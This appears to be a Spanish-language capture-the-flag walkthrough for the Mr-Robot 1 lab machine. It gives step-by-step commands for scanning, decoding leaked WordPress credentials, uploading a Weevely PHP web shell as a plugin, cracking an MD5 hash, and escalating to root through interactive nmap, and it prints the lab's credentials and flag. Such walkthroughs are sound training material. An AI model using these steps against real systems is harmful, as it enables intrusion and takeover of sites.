 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=400&height=70&lines=Mr.Robot_1"></a>
</p>
  
<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/test?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf14.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/173256530-9e554740-e9d2-450e-8e1a-209d773c7247.png)

Puertos abiertos: [22,80,443]

- *Paso 2:* Enumerar directorios web con Dirb. 
```
dirb http://ctf14.root-me.org /usr/share/dirb/wordlists/small.txt
```
![2](https://user-images.githubusercontent.com/75953873/173256804-380ff8a7-8b69-4153-8ee8-8c1eb7c8eb0d.png)

URL objetivo: http://ctf14.root-me.org/license

![3](https://user-images.githubusercontent.com/75953873/173256860-82d25cc3-6a8c-4e59-97a8-cbe263df5162.png)

Credenciales ofuscadas a base64: **ZWxsaW90OkVSMjgtMDY1Mgo=**

- *Paso 3:* Decodificar credenciales con Python y Bash.

`Python:`
```python
import base64
key = 'ZWxsaW90OkVSMjgtMDY1Mgo='
print(base64.b64decode(key))
```

`Bash:`
```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![4](https://user-images.githubusercontent.com/75953873/173257252-c7dac9d3-f612-44ff-b31b-9d9baf5d297e.png)

Usuario: `elliot`

Contraseña: `ER28-0652`

- *Paso 4:* Acceder al panel de administración de WordPress, generalmente se agrega `/wp-admin.php` o `/wp-login.php` al final del dominio.
```
http://ctf14.root-me.org/wp-login.php
```
![5](https://user-images.githubusercontent.com/75953873/173257567-b73aa894-5756-41d1-b73b-f31db5de3f3d.png)

Plugins **>** instalar plugins

![6](https://user-images.githubusercontent.com/75953873/173257615-a9b95d88-ca5a-4a92-95a3-3391c4bd38a3.png)

Agregar nuevo plugin **>** Subir plugin

![7](https://user-images.githubusercontent.com/75953873/173257639-ce85dec7-fc54-4830-88b4-f040fa379b14.png)

- *Paso 5:* Crear backdoor con Weevely.
```
weevely generate pass123 backdoor.php
```
![8](https://user-images.githubusercontent.com/75953873/173257694-583bc09c-8970-45bf-abd2-cd033643ef74.png)

- *Paso 6:* Subir backdoor como un plugin más.

![9](https://user-images.githubusercontent.com/75953873/173257782-8da08f9d-c687-458c-a84e-bb0cfd0ae0d0.png)

En el apartado de `Media` tenemos archivos e imágenes, el que nos interesa es el `backdoor.php` que acabamos de subir. Doble clic sobre él y copiamos la URL que esta en `Description`.

![10](https://user-images.githubusercontent.com/75953873/173257806-03d06d7d-9f12-4d0a-896a-daa654620609.png)

![11](https://user-images.githubusercontent.com/75953873/173257849-3f3aa920-9d27-4dd6-88fa-e26396948493.png)

URL: http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php

- *Paso 7:* Acceder al backdoor con Weevely.
```
weevely http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php pass123
```
![12](https://user-images.githubusercontent.com/75953873/173257930-15d0189a-e1bd-4a23-84df-7b79357ae5f5.png)

Entramos al direcorio `/home` **>** robot **>** `cat` para mostrar el contenido del archivo `password.raw-md5`.

![13](https://user-images.githubusercontent.com/75953873/173258021-b8bb555d-5578-4f35-a6ed-89c0c0a08a17.png)

Hash: `c3fcd3d76192e4007dfb496cca67e13b`

- *Paso 8:* Identificación de tipo de hash con Hash-Identifier.
```
hash-identifier
```
![14](https://user-images.githubusercontent.com/75953873/173258174-b4dc146e-bba1-4433-b52f-343b83020f9d.png)

Tipo de hash: **MD5**

- *Paso 9:* Desencriptar hash con JohnTheRipper y de forma online.
- 
`JohnTheRipper:`
```
john --format=Raw-MD5 --wordlist=/home/whoami/crackMD5.txt hash.txt
```
![16](https://user-images.githubusercontent.com/75953873/173258469-18fcf953-77ba-4c07-b2e9-692086788ec8.png)

`Online:`
- https://hashtoolkit.com/decrypt-md5-hash/

![15](https://user-images.githubusercontent.com/75953873/173258477-324ff102-6b01-4c81-807b-6148b9fccbdd.png)

Clave desencriptada: 	`abcdefghijklmnopqrstuvwxyz`

- *Paso 10:* Acceder al servidor SSH remotamente, la contraseña es el hash descifrado.
```
ssh robot@ctf14.root-me.org 
```
![16](https://user-images.githubusercontent.com/75953873/173258600-90109f0c-79be-4b1d-b7a4-81e1f00e221f.png)

Entramos al direcorio `/usr/local/bin` e interactuamos con nmap.
```
cd /usr/local/bin
nmap --interactive
```
![18](https://user-images.githubusercontent.com/75953873/173258664-e6ba0c73-db36-4979-8844-351e89df0eeb.png)

Por último, escalamos privilegios con nmap y extraemos la llave (flag) del fichero `passwd`.
```
!sh
cat /passwd
```
![19](https://user-images.githubusercontent.com/75953873/173258754-b48703a8-ceef-46df-bd32-1979ec294639.png)

**KEY:** 9e5ddd93d307150a16a03d56ff319c6d

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)

